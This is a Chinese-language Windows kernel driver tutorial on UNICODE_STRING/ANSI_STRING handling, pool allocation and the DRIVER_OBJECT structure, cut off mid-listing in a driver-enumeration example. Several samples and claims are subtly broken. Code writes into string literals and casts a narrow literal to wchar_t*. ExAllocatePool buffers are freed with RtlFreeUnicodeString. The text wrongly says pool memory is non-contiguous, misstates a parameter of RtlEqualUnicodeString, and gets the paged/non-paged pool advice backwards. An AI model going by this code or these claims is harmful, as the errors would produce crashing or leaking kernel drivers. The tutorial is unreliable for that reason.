`ANSI_STRING`和`UNICODE_STRING`是微软在内核中推出的两种安全版本的字符串结构体，`ANSI_STRING`代表的是`ANSI`多字节模式的字符串，而`UNICODE_STRING`则代表的是`UNCODE`类型的字符。这两种字符串类型可以相互转换，因此在内核编程中，需要经常进行类型转换。

`ANSI_STRING`和`UNICODE_STRING`之间的转换可以通过内核中提供的一系列函数实现。其中，最常用的是`RtlUnicodeStringToAnsiString`和`RtlAnsiStringToUnicodeString`这两个函数。这两个函数分别用于将`UNICODE_STRING`类型的字符串转换成`ANSI_STRING`类型的字符串，以及将`ANSI_STRING`类型的字符串转换成`UNICODE_STRING`类型的字符串。

#### 2.3.1 初始化字符串

在内核开发模式下`初始化字符串`也需要调用专用的初始化函数，使用`ANSI`字符串时需要调用`RtlInitAnsiString`函数进行初始化，而使用`Unicode`字符串时则需要调用`RtlInitUnicodeString`函数进行初始化。这两个函数都需要传入要初始化的字符串和字符串长度，初始化完成后就可以对字符串进行使用了。如下分别初始化`ANSI`和`UNCODE`字符串，我们来看看代码是如何实现的。
```c
#include <ntifs.h>
#include <ntstrsafe.h>

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint("驱动卸载成功 \n");
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    // 定义内核字符串
    ANSI_STRING ansi;
    UNICODE_STRING unicode;
    UNICODE_STRING str;

    // 定义普通字符串
    char * char_string = "hello lyshark";
    wchar_t *wchar_string = (WCHAR*)"hello lyshark";

    // 初始化字符串的多种方式
    RtlInitAnsiString(&ansi, char_string);
    RtlInitUnicodeString(&unicode, wchar_string);
    RtlUnicodeStringInit(&str, L"hello lyshark");

    // 改变原始字符串（乱码位置，此处仅用于演示赋值方式）
    char_string[0] = (CHAR)"A";         // char类型每个占用1字节
    char_string[1] = (CHAR)"B";

    wchar_string[0] = (WCHAR)"A";        // wchar类型每个占用2字节
    wchar_string[2] = (WCHAR)"B";

    // 输出字符串 %Z
    DbgPrint("输出ANSI: %Z \n", &ansi);
    DbgPrint("输出WCHAR: %Z \n", &unicode);
    DbgPrint("输出字符串: %wZ \n", &str);

    DbgPrint("驱动加载成功 \n");

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

代码输出效果如下图所示；




#### 2.3.2 字符串与整数转换

内核中还可实现`字符串与整数`之间的灵活转换，内核中提供了`RtlUnicodeStringToInteger`这个函数来实现`字符串转整数`，与之对应的`RtlIntegerToUnicodeString`则是将`整数转为字符串`这两个内核函数也是非常常用的。

通常使用`RtlUnicodeStringToInteger`函数来将`Unicode`字符串转换为整数，函数原型为：
```c
NTSYSAPI NTSTATUS NTAPI RtlUnicodeStringToInteger(
  PCUNICODE_STRING   String,
  ULONG              Base,
  PULONG             Value
);
```
其中，`String`参数为输入的`Unicode`字符串，`Base`参数为进制数（通常为10进制），`Value`参数为输出的整数。返回值为函数执行状态，如果成功则返回`STATUS_SUCCESS`。

与之对应的是`RtlIntegerToUnicodeString`函数，用于将整数转换为`Unicode`字符串，函数原型为：
```c
NTSYSAPI NTSTATUS NTAPI RtlIntegerToUnicodeString(
  ULONG  Value,
  ULONG  Base,
  PUNICODE_STRING  String
);
```
其中，`Value`参数为输入的整数，`Base`参数为进制数，`String`参数为输出的`Unicode`字符串。返回值同样为函数执行状态，如果成功则返回`STATUS_SUCCESS`。
```c
#include <ntifs.h>
#include <ntstrsafe.h>

VOID UnDriver(PDRIVER_OBJECT driver)
{
  DbgPrint("驱动卸载成功 \n");
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
  NTSTATUS flag;
  ULONG number;

  DbgPrint("hello lyshark \n");

  UNICODE_STRING uncode_buffer_source = { 0 };
  UNICODE_STRING uncode_buffer_target = { 0 };

  // 字符串转为数字
  RtlInitUnicodeString(&uncode_buffer_source, L"100");
  flag = RtlUnicodeStringToInteger(&uncode_buffer_source, 10, &number);

  if (NT_SUCCESS(flag))
  {
    DbgPrint("字符串 -> 数字: %d \n", number);
  }

  // 数字转为字符串
  uncode_buffer_target.Buffer = (PWSTR)ExAllocatePool(PagedPool, 1024);
  uncode_buffer_target.MaximumLength = 1024;

  flag = RtlIntegerToUnicodeString(number, 10, &uncode_buffer_target);

  if (NT_SUCCESS(flag))
  {
    DbgPrint("数字 -> 字符串: %wZ \n", &uncode_buffer_target);
  }

  // 释放堆空间
  RtlFreeUnicodeString(&uncode_buffer_target);

  DbgPrint("驱动加载成功 \n");

  Driver->DriverUnload = UnDriver;
  return STATUS_SUCCESS;
}
```

代码输出效果如下图所示；



#### 2.3.3 字符串ANSI与UNICODE

将`UNICODE_STRING`结构转换成`ANSI_STRING`结构，代码中调用了`RtlUnicodeStringToAnsiString`内核函数，该函数也是微软提供的。

将`UNICODE_STRING`结构转换成`ANSI_STRING`结构的代码，核心部分可归纳为：
```c
ANSI_STRING AnsiStr;
UNICODE_STRING UniStr;
RtlUnicodeStringToAnsiString(&AnsiStr, &UniStr, TRUE);
```
其中，`AnsiStr`是要存储转换后的`ANSI`字符串的结构体，`UniStr`是要转换的`UNICODE`字符串结构体，第三个参数`TRUE`表示要分配一个缓冲区来存储转换后的字符串。

注意，使用`RtlUnicodeStringToAnsiString`函数时，需要在使用完后调用`RtlFreeAnsiString`函数来释放所分配的缓冲区。
```c
#include <ntifs.h>
#include <ntstrsafe.h>

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint("驱动卸载成功 \n");
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("hello lyshark \n");

    UNICODE_STRING uncode_buffer_source = { 0 };
    ANSI_STRING ansi_buffer_target = { 0 };

    // 初始化 UNICODE 字符串
    RtlInitUnicodeString(&uncode_buffer_source, L"hello lyshark");

    // 转换函数
    NTSTATUS flag = RtlUnicodeStringToAnsiString(&ansi_buffer_target, &uncode_buffer_source, TRUE);

    if (NT_SUCCESS(flag))
    {
        DbgPrint("ANSI: %Z \n", &ansi_buffer_target);
    }

    // 销毁ANSI字符串
    RtlFreeAnsiString(&ansi_buffer_target);

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

代码输出效果如下图所示；



如果将上述过程反过来，将`ANSI_STRING`转换为`UNICODE_STRING`结构，则需要调用`RtlAnsiStringToUnicodeString`这个内核专用函数实现。

`RtlAnsiStringToUnicodeString`函数的作用是将`ANSI_STRING`结构体转换成`UNICODE_STRING`结构体，其中`ANSI_STRING`代表的是`ANSI`格式的字符串，而`UNICODE_STRING`代表的是`Unicode`格式的字符串。具体实现过程如下：

首先需要定义一个`ANSI_STRING`结构体变量`ansiStr`，并初始化其中的`Buffer、MaximumLength`和`Length`成员变量，其中`Buffer`成员变量指向存储`ANSI`格式字符串的缓冲区，`MaximumLength`成员变量表示该缓冲区的最大长度，`Length`成员变量表示该缓冲区中已经使用的长度。

接着需要定义一个`UNICODE_STRING`结构体变量`uniStr`，并初始化其中的`Buffer、MaximumLength`和`Length`成员变量，其中`Buffer`成员变量指向存储`Unicode`格式字符串的缓冲区，`MaximumLength`成员变量表示该缓冲区的最大长度，`Length`成员变量表示该缓冲区中已经使用的长度。

调用`RtlAnsiStringToUnicodeString`函数，传入两个参数，第一个参数为要转换的`UNICODE_STRING`结构体指针，第二个参数为要转换的`ANSI_STRING`结构体指针。函数会将`ANSI_STRING`中的内容转换为`Unicode`格式，并将结果存储在`UNICODE_STRING`结构体的`Buffer`成员变量中。

调用完成后，`uniStr.Buffer`中就存储了转换后的`Unicode`格式字符串，可以进行后续的操作。

需要注意的是，`RtlAnsiStringToUnicodeString`函数在使用完毕后，还需要调用`RtlFreeUnicodeString`函数释放内存。
```c
#include <ntifs.h>
#include <ntstrsafe.h>

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint("驱动卸载成功 \n");
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("hello lyshark \n");

    UNICODE_STRING uncode_buffer_source = { 0 };
    ANSI_STRING ansi_buffer_target = { 0 };

    // 初始化字符串
    RtlInitString(&ansi_buffer_target, "hello lyshark");

    // 转换函数
    NTSTATUS flag = RtlAnsiStringToUnicodeString(&uncode_buffer_source, &ansi_buffer_target, TRUE);
    if (NT_SUCCESS(flag))
    {
        DbgPrint("UNICODE: %wZ \n", &uncode_buffer_source);
    }

    // 销毁UNICODE字符串
    RtlFreeUnicodeString(&uncode_buffer_source);

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

代码输出效果如下图所示；



如上代码是内核通用结构体之间的转换类型，有时我们还需要将各类结构体转为普通的字符类型，例如下方的两个案例：

例如将`UNICODE_STRING` 转为 `CHAR*`类型。将`UNICODE_STRING`转换为`CHAR*`类型需要先将`UNICODE_STRING`转换为`ANSI_STRING`类型，然后再将`ANSI_STRING`类型转换为`CHAR*`类型。

具体步骤可以总结为如下：

 - 1.定义`ANSI_STRING`和`UNICODE_STRING`类型的变量，分别用于存储转换前后的字符串；
 - 2.调用`RtlUnicodeStringToAnsiString`函数，将`UNICODE_STRING`转换为`ANSI_STRING`类型；
 - 3.定义一个`CHAR*`类型的变量，用于存储转换后的字符串；
 - 4.将`ANSI_STRING`类型转换为`CHAR*`类型，可以使用`ANSI_STRING.Buffer`指向的字符数组作为`CHAR*`类型的字符串。

以下是示例代码，可用于测试两者的转换模式；
```c
#define _CRT_SECURE_NO_WARNINGS
#include <ntifs.h>
#include <windef.h>
#include <ntstrsafe.h>

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint("驱动卸载成功 \n");
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("hello lyshark \n");

    UNICODE_STRING uncode_buffer_source = { 0 };
    ANSI_STRING ansi_buffer_target = { 0 };
    char szBuf[1024] = { 0 };

    // 初始化 UNICODE 字符串
    RtlInitUnicodeString(&uncode_buffer_source, L"hello lyshark");

    // 转换函数
    NTSTATUS flag = RtlUnicodeStringToAnsiString(&ansi_buffer_target, &uncode_buffer_source, TRUE);

    if (NT_SUCCESS(flag))
    {
        strcpy(szBuf, ansi_buffer_target.Buffer);
        DbgPrint("输出char*字符串: %s \n", szBuf);
    }

    // 销毁ANSI字符串
    RtlFreeAnsiString(&ansi_buffer_target);

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

代码输出效果如下图所示：



如果我们将上述过程反过来实现，将 `CHAR*`类型转为`UNICODE_STRING`结构此时有两种可行的方式；

第一种方式，可以通过调用 `RtlCreateUnicodeStringFromAsciiz` 函数来实现，该函数将 `CHAR*` 类型的字符串转换成 `UNICODE_STRING` 结构体。函数原型如下：
```c
NTSYSAPI BOOLEAN RtlCreateUnicodeStringFromAsciiz(
  PUNICODE_STRING DestinationString,
  PCSZ            SourceString
);
```
函数接受两个参数，分别为目标 `UNICODE_STRING` 结构体指针和源字符串指针。函数内部将会动态分配内存并将转换后的 `UNICODE_STRING` 结构体写入到目标结构体指针所指向的内存空间中，同时返回一个布尔值表示操作是否成功。函数的具体用法如下：
```c
CHAR* srcString = "Hello, lyshark!";
UNICODE_STRING destString;

RtlCreateUnicodeStringFromAsciiz(&destString, srcString);

// 对 destString 进行操作
RtlFreeUnicodeString(&destString);
```
需要注意的是，`RtlCreateUnicodeStringFromAsciiz` 函数创建的 `UNICODE_STRING` 结构体内存需要手动释放，否则会产生内存泄漏。可以使用 `RtlFreeUnicodeString` 函数来释放该内存，函数原型如下：
```c
NTSYSAPI VOID RtlFreeUnicodeString(
  PUNICODE_STRING UnicodeString
);
```
该函数接受一个 `UNICODE_STRING` 结构体指针，用于指定需要释放内存的结构体。

而第二种方法则是通过中转的方式实现，首先用户可使用`RtlInitString`将一个`CHAR*`初始化为ANSI结构，然后再使用`RtlAnsiStringToUnicodeString`一次性完成`ANSI`到`UNICODE`的类型转换；
```c
#define _CRT_SECURE_NO_WARNINGS
#include <ntifs.h>
#include <windef.h>
#include <ntstrsafe.h>

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint("驱动卸载成功 \n");
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("hello lyshark \n");

    UNICODE_STRING uncode_buffer_source = { 0 };
    ANSI_STRING ansi_buffer_target = { 0 };

    // 设置CHAR*
    char szBuf[1024] = { 0 };
    strcpy(szBuf, "hello lyshark");

    // 初始化ANSI字符串
    RtlInitString(&ansi_buffer_target, szBuf);

    // 转换函数
    NTSTATUS flag = RtlAnsiStringToUnicodeString(&uncode_buffer_source, &ansi_buffer_target, TRUE);
    if (NT_SUCCESS(flag))
    {
        DbgPrint("UNICODE: %wZ \n", &uncode_buffer_source);
    }

    // 销毁UNICODE字符串
    RtlFreeUnicodeString(&uncode_buffer_source);

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

代码输出效果如下图所示：




#### 2.3.4 字符串连接操作

字符串还可以进行连接操作，例如将两个不同变量中的字符串进行合并，以此来生成一个新的字符串，通过`RtlAppendUnicodeToString`这个内核函数即可实现连接。

`RtlAppendUnicodeToString`用于将 `Unicode` 字符串追加到另一个 `Unicode` 字符串的末尾。这个函数位于 `ntdll.dll` 中，可以通过 `NtDll.lib` 库来链接，函数的原型如下：
```c
NTSTATUS RtlAppendUnicodeToString(
    PUNICODE_STRING DestinationString,
    PCWSTR SourceString
);
```

其中，`DestinationString` 是一个指向目标字符串的 `UNICODE_STRING` 结构体的指针，而 `SourceString` 则是一个指向源字符串的 `wchar_t` 类型的指针。

使用该函数可以很方便地将两个字符串连接起来，只需将第一个字符串作为 `DestinationString` 参数传递，第二个字符串作为 `SourceString` 参数传递即可。这个函数将会自动计算两个字符串的长度，并将第二个字符串的内容追加到第一个字符串的末尾。


以下是一个示例代码，将两个字符串 `str1` 和 `str2` 连接起来，并输出结果：
```c
#include <ntifs.h>

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint("驱动已卸载 \n");
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("hello lyshark \n");

    UNICODE_STRING dst;
    WCHAR dst_buf[256];
    NTSTATUS status;

    // 初始化字符串
    UNICODE_STRING src = RTL_CONSTANT_STRING(L"hello");

    // 字符串初始化为空串，长度为256
    RtlInitEmptyUnicodeString(&dst, dst_buf, 256 * sizeof(WCHAR));

    // 将src拷贝到dst
    RtlCopyUnicodeString(&dst, &src);

    // 在dst之后追加
    status = RtlAppendUnicodeToString(&dst, L" lyshark");

    if (status == STATUS_SUCCESS)
    {
        DbgPrint("输出链接后字符串：%wZ \n", &dst);
    }

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

最后，我们使用 `DbgPrint` 函数输出结果。在输出结果之前，我们需要使用 `%wZ` 格式化符号将 `Unicode` 字符串作为参数进行输出。



### 2.4 内核字符串拷贝与比较

在上一篇文章`《内核字符串转换方法》`中简单介绍了内核是如何使用字符串以及字符串之间的转换方法，本章将继续探索字符串的拷贝与比较，与应用层不同内核字符串拷贝与比较也需要使用内核专用的API函数，字符串的拷贝往往伴随有内核内存分配，我们将首先简单介绍内核如何分配堆空间，然后再以此为契机简介字符串的拷贝与比较。

#### 2.4.1 内核中的空间分配

首先内核中的堆栈分配可以使用`ExAllocatePool()`这个内核函数实现，此外还可以使用`ExAllocatePoolWithTag()`函数，两者的区别是，第一个函数可以直接分配内存，第二个函数在分配时需要指定一个标签，此外内核属性常用的有两种`NonPagedPool`用于分配非分页内存，而`PagePool`则用于分配分页内存，在开发中推荐使用非分页内存，因为分页内存数量有限。

内存分配使用`ExAllocatePool`函数，内存拷贝可使用`RtlCopyMemory`函数，需要注意该函数其实是对`Memcpy`函数的包装。

`ExAllocatePool`用于在内核空间分配内存。它的作用是向系统申请一块指定大小的内存，并返回这块内存的起始地址，供内核使用。需要注意的是，使用`ExAllocatePool`分配的内存是在内核空间中，因此不能被用户空间的代码直接访问。

`RtlCopyMemory`也是Windows内核开发中的一个函数，用于在内存中`拷贝`数据。它的作用是将指定长度的数据从源地址拷贝到目标地址，可以用于在内核空间中拷贝数据。需要注意的是，`RtlCopyMemory`实际上是对`memcpy`函数的封装，但是它提供了更加严格的参数检查和更好的错误处理机制，因此在内核开发中建议使用`RtlCopyMemory`而不是直接使用`memcpy`。

在使用这两个函数时需要注意以下几点：

 - ExAllocatePool分配的内存必须在使用完后及时释放，否则会导致内存泄漏。可以使用`ExFreePool`函数来释放内存。
 - ExAllocatePool分配的内存是非连续的，因此不能使用指针算术运算来访问内存块中的某个元素。如果需要在内存块中访问某个元素，可以使用数组下标的方式来访问。
 - RtlCopyMemory函数需要确保源地址和目标地址所指向的内存块不会重叠，否则会导致数据的不确定性。可以使用`RtlMoveMemory`函数来处理源地址和目标地址重叠的情况。

```c
#include <ntifs.h>

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint("驱动已卸载 \n");
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    UNICODE_STRING uncode_buffer = { 0 };

    DbgPrint("hello lyshark \n");

    wchar_t * wchar_string = L"hello lyshark";

    // 设置最大长度
    uncode_buffer.MaximumLength = 1024;

    // 分配内存空间
    uncode_buffer.Buffer = (PWSTR)ExAllocatePool(PagedPool, 1024);

    // 设置字符长度 因为是宽字符，所以是字符长度的 2 倍
    uncode_buffer.Length = wcslen(wchar_string) * 2;

    // 保证缓冲区足够大，否则程序终止
    ASSERT(uncode_buffer.MaximumLength >= uncode_buffer.Length);

    // 将 wchar_string 中的字符串拷贝到 uncode_buffer.Buffer
    RtlCopyMemory(uncode_buffer.Buffer, wchar_string, uncode_buffer.Length);

    // 设置字符串长度 并输出
    uncode_buffer.Length = wcslen(wchar_string) * 2;
    DbgPrint("输出字符串: %wZ \n", uncode_buffer);

    // 释放堆空间
    ExFreePool(uncode_buffer.Buffer);
    uncode_buffer.Buffer = NULL;
    uncode_buffer.Length = uncode_buffer.MaximumLength = 0;

    DbgPrint("驱动已加载 \n");
    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

代码输出效果如下图所示：



实现空间分配，字符串结构`UNICODE_STRING`可以定义数组，空间的分配也可以循环进行，例如我们分配十个字符串结构，并输出结构内的参数。
```c
#include <ntifs.h>

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint("驱动已卸载 \n");
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    UNICODE_STRING uncode_buffer[10] = { 0 };
    wchar_t * wchar_string = L"hello lyshark";

    DbgPrint("hello lyshark \n");

    int size = sizeof(uncode_buffer) / sizeof(uncode_buffer[0]);
    DbgPrint("数组长度: %d \n", size);

    for (int x = 0; x < size; x++)
    {
        // 分配空间
        uncode_buffer[x].Buffer = (PWSTR)ExAllocatePool(PagedPool, 1024);

        // 设置长度
        uncode_buffer[x].MaximumLength = 1024;
        uncode_buffer[x].Length = wcslen(wchar_string) * sizeof(WCHAR);
        ASSERT(uncode_buffer[x].MaximumLength >= uncode_buffer[x].Length);

        // 拷贝字符串并输出
        RtlCopyMemory(uncode_buffer[x].Buffer, wchar_string, uncode_buffer[x].Length);
        uncode_buffer[x].Length = wcslen(wchar_string) * sizeof(WCHAR);
        DbgPrint("循环: %d 输出字符串: %wZ \n", x, uncode_buffer[x]);

        // 释放内存
        ExFreePool(uncode_buffer[x].Buffer);
        uncode_buffer[x].Buffer = NULL;
        uncode_buffer[x].Length = uncode_buffer[x].MaximumLength = 0;
    }

    DbgPrint("驱动加载成功 \n");
    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

代码输出效果如下图所示：



#### 2.4.2 内核中的字符串拷贝

实现字符串拷贝，此处可以直接使用`RtlCopyMemory`函数直接对内存操作，也可以调用内核提供的`RtlCopyUnicodeString`函数来实现，具体代码如下。
```c
#include <ntifs.h>

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint("驱动已卸载 \n");
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("hello lyshark \n");

    UNICODE_STRING uncode_buffer_source = { 0 };
    UNICODE_STRING uncode_buffer_target = { 0 };

    // 该函数可用于初始化字符串
    RtlInitUnicodeString(&uncode_buffer_source, L"hello lyshark");

    // 初始化target字符串,分配空间
    uncode_buffer_target.Buffer = (PWSTR)ExAllocatePool(PagedPool, 1024);
    uncode_buffer_target.MaximumLength = 1024;

    // 将source中的内容拷贝到target中
    RtlCopyUnicodeString(&uncode_buffer_target, &uncode_buffer_source);

    // 输出结果
    DbgPrint("source = %wZ \n", &uncode_buffer_source);
    DbgPrint("target = %wZ \n", &uncode_buffer_target);

    // 释放空间 source 无需销毁
    // 如果强制释放掉source则会导致系统蓝屏,因为source是在栈上的
    RtlFreeUnicodeString(&uncode_buffer_target);

    DbgPrint("驱动加载成功 \n");

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

代码输出效果如下图所示：



#### 2.4.3 内核中的字符串比较

实现字符串比较，如果需要比较两个`UNICODE_STRING`字符串结构体是否相等，那么可以使用`RtlEqualUnicodeString`这个内核函数实现。

`RtlEqualUnicodeString`用于比较两个`UNICODE_STRING`字符串结构体是否相等。该函数的第一个参数是指向要比较的第一个字符串结构体的指针，第二个参数是指向要比较的第二个字符串结构体的指针，第三个参数是指定比较的方式，如果该参数为TRUE，则函数会在相等的情况下返回TRUE，否则会在不相等的情况下返回FALSE。

下面是一个使用`RtlEqualUnicodeString`函数比较两个字符串结构体是否相等的示例代码：
```c
#include <ntifs.h>

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint("驱动已卸载 \n");
}

// PowerBy: LyShark
NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("hello lyshark \n");

    UNICODE_STRING uncode_buffer_source = { 0 };
    UNICODE_STRING uncode_buffer_target = { 0 };

    // 该函数可用于初始化字符串
    RtlInitUnicodeString(&uncode_buffer_source, L"hello lyshark");
    RtlInitUnicodeString(&uncode_buffer_target, L"hello lyshark");

    // 比较字符串是否相等
    if (RtlEqualUnicodeString(&uncode_buffer_source, &uncode_buffer_target, TRUE))
    {
        DbgPrint("字符串相等 \n");
    }
    else
    {
        DbgPrint("字符串不相等 \n");
    }

    DbgPrint("驱动加载成功 \n");

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

代码输出效果如下图所示：



有时在字符串比较时需要统一字符串格式，例如将所有字符全部转换为大写之后再做比较，此时可以使用`RtlUpcaseUnicodeString`函数将小写字符串为大写。

`RtlUpcaseUnicodeString`用于将`UNICODE_STRING`字符串结构体中的字符转换为大写字符。该函数的第一个参数是指向要转换的字符串结构体的指针，第二个参数是指向要存储结果的字符串结构体的指针，第三个参数指定转换的方式。

下面是一个使用`RtlUpcaseUnicodeString`函数大小写字符串转换的示例代码：
```c
#include <ntifs.h>

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint("驱动已卸载 \n");
}

// PowerBy: LyShark
NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("hello lyshark \n");

    UNICODE_STRING uncode_buffer_source = { 0 };
    UNICODE_STRING uncode_buffer_target = { 0 };

    // 该函数可用于初始化字符串
    RtlInitUnicodeString(&uncode_buffer_source, L"hello lyshark");
    RtlInitUnicodeString(&uncode_buffer_target, L"HELLO LYSHARK");

    // 字符串小写变大写
    RtlUpcaseUnicodeString(&uncode_buffer_target, &uncode_buffer_source, TRUE);
    DbgPrint("小写输出: %wZ \n", &uncode_buffer_source);
    DbgPrint("变大写输出: %wZ \n", &uncode_buffer_target);

    // 销毁字符串
    RtlFreeUnicodeString(&uncode_buffer_target);

    DbgPrint("驱动加载成功 \n");

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

代码输出效果如下图所示：



### 2.5 探索DRIVER_OBJECT结构

在Windows内核中，每个设备驱动程序都需要一个`DRIVER_OBJECT`对象，该对象由系统创建并传递给驱动程序的`DriverEntry`函数。驱动程序使用此对象来注册与设备对象和其他系统对象的交互，并在操作系统需要与驱动程序进行交互时使用此对象。`DRIVER_OBJECT`对象还包含了与驱动程序所管理的设备对象相关联的设备扩展结构，以及用于处理`I/O`请求的函数指针等信息。它是驱动程序与操作系统内核之间的桥梁，用于协调设备的操作和管理。

本章将探索驱动程序开发的基础部分，了解驱动对象`DRIVER_OBJECT`结构体的定义，一般来说驱动程序`DriverEntry`入口处都会存在这样一个驱动对象，该对象内所包含的就是当前所加载驱动自身的一些详细参数，例如驱动大小，驱动标志，驱动名，驱动节等等，每一个驱动程序都会存在这样的一个结构，首先来看一下微软对其的定义；
```c
typedef struct _DRIVER_OBJECT {
    CSHORT Type;                                // 驱动类型
    CSHORT Size;                                // 驱动大小
    PDEVICE_OBJECT DeviceObject;                // 驱动对象
    ULONG Flags;                                // 驱动的标志
    PVOID DriverStart;                          // 驱动的起始位置
    ULONG DriverSize;                           // 驱动的大小
    PVOID DriverSection;                        // 指向驱动程序映像的内存区对象
    PDRIVER_EXTENSION DriverExtension;          // 驱动的扩展空间
    UNICODE_STRING DriverName;                  // 驱动名字
    PUNICODE_STRING HardwareDatabase;
    PFAST_IO_DISPATCH FastIoDispatch;
    PDRIVER_INITIALIZE DriverInit;
    PDRIVER_STARTIO DriverStartIo;
    PDRIVER_UNLOAD DriverUnload;                 // 驱动对象的卸载地址
    PDRIVER_DISPATCH MajorFunction[IRP_MJ_MAXIMUM_FUNCTION + 1];
} DRIVER_OBJECT;
```
那么如果我们想要遍历出当前自身驱动的一些基本信息，我们只需要在驱动的头部解析`_DRIVER_OBJECT`即可得到全部的数据，这段代码可以写成如下样子，其中的`IRP_MJ_`这一系列则是微软的调用号，不同的RIP代表着不同的涵义，但一般驱动也就会用到如下这几种调用号。
```c
#include <ntifs.h>

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint(("Uninstall Driver Is OK \n"));
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("hello lyshark \n");

    Driver->DriverUnload = UnDriver;

    DbgPrint("驱动名字 = %wZ \n", Driver->DriverName);
    DbgPrint("驱动起始地址 = %p | 大小 = %x | 结束地址 %p \n",Driver->DriverStart,Driver->DriverSize,(ULONG64)Driver->DriverStart + Driver->DriverSize);

    DbgPrint("卸载地址 = %p\n", Driver->DriverUnload);
    DbgPrint("IRP_MJ_READ地址 = %p\n", Driver->MajorFunction[IRP_MJ_READ]);
    DbgPrint("IRP_MJ_WRITE地址 = %p\n", Driver->MajorFunction[IRP_MJ_WRITE]);
    DbgPrint("IRP_MJ_CREATE地址 = %p\n", Driver->MajorFunction[IRP_MJ_CREATE]);
    DbgPrint("IRP_MJ_CLOSE地址 = %p\n", Driver->MajorFunction[IRP_MJ_CLOSE]);
    DbgPrint("IRP_MJ_DEVICE_CONTROL地址 = %p\n", Driver->MajorFunction[IRP_MJ_DEVICE_CONTROL]);

    // 输出完整的调用号
    for (auto i = 0; i < IRP_MJ_MAXIMUM_FUNCTION; i++)
    {
        DbgPrint("IRP_MJ调用号 = %d | 函数地址 = %p \r\n", i, Driver->MajorFunction[i]);
    }

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```
编译这段程序，签名并运行，我们即可看到如下输出信息，此时当前自身驱动的详细参数都可以被输出；



当然运用`_DRIVER_OBJECT`对象中的`DriverSection`字段我们完全可以遍历输出当前系统下所有的驱动程序的具体信息，`DriverSection`结构指向了一个`_LDR_DATA_TABLE_ENTRY`结构，结构的微软定义如下；
```c
typedef struct _LDR_DATA_TABLE_ENTRY {
    LIST_ENTRY InLoadOrderLinks;
    LIST_ENTRY InMemoryOrderLinks;
    LIST_ENTRY InInitializationOrderLinks;
    PVOID DllBase;
    PVOID EntryPoint;
    ULONG SizeOfImage;
    UNICODE_STRING FullDllName;
    UNICODE_STRING BaseDllName;
    ULONG Flags;
    USHORT LoadCount;
    USHORT TlsIndex;
    union {
        LIST_ENTRY HashLinks;
        struct {
            PVOID SectionPointer;
            ULONG CheckSum;
        };
    };
    union {
        struct {
            ULONG TimeDateStamp;
        };
        struct {
            PVOID LoadedImports;
        };
    };
}LDR_DATA_TABLE_ENTRY, *PLDR_DATA_TABLE_ENTRY;
```
为了能够遍历出所有的系统驱动，我们需要得到`pLdr`结构，该结构可通过`Driver->DriverSection`的方式获取到，获取到之后通过`pLdr->InLoadOrderLinks.Flink`得到当前驱动的入口地址，而每一次调用`pListEntry->Flink`都将会指向下一个驱动对象，通过不断地循环`CONTAINING_RECORD`解析，即可输出当前系统内所有驱动的详细信息。这段程序的写法可以如下所示；
```c
#include <ntifs.h>

typedef struct _LDR_DATA_TABLE_ENTRY {
    LIST_ENTRY InLoadOrderLinks;
    LIST_ENTRY InMemoryOrderLinks;
    LIST_ENTRY InInitializationOrderLinks;
    PVOID DllBase;
    PVOID EntryPoint;
    ULONG SizeOfImage;
    UNICODE_STRING FullDllName;
    UNICODE_STRING BaseDllName;
    ULONG Flags;
    USHORT LoadCount;
    USHORT TlsIndex;
    union {
        LIST_ENTRY HashLinks;
        struct {
            PVOID SectionPointer;
            ULONG CheckSum;
        };
    };
    union {
        struct {
            ULONG TimeDateStamp;
        };
        struct {
            PVOID LoadedImports;
        };
    };
